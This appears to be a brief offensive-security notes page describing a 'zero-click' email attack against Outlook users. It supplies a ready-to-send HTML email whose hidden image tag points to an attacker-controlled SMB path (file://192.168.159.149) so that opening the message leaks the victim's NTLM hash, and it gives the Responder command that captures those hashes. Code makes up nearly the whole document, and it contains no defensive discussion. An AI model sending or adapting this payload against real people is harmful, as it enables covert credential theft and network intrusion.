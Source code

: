 # 🧘♂ 0-Click Email Attack

## HTML Email (To grab the user's NTLM hash when he/she opens the outlook email)

{% hint style="info" %}
If the mail is send by an trusted user then the victim donot need to open any links that is embed in the email.
{% endhint %}



```
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <p>
        Hi Person, <br/>
        I just wanted to write you an email to show you our really cool
        product: <img src="file://192.168.159.149/anything" />
        <br/>
        Thanks,
        Mantis,
    </p>
</body>
</html>
```



## Start Responder

```
python3 Responder.py -I 192.168.159.149
```

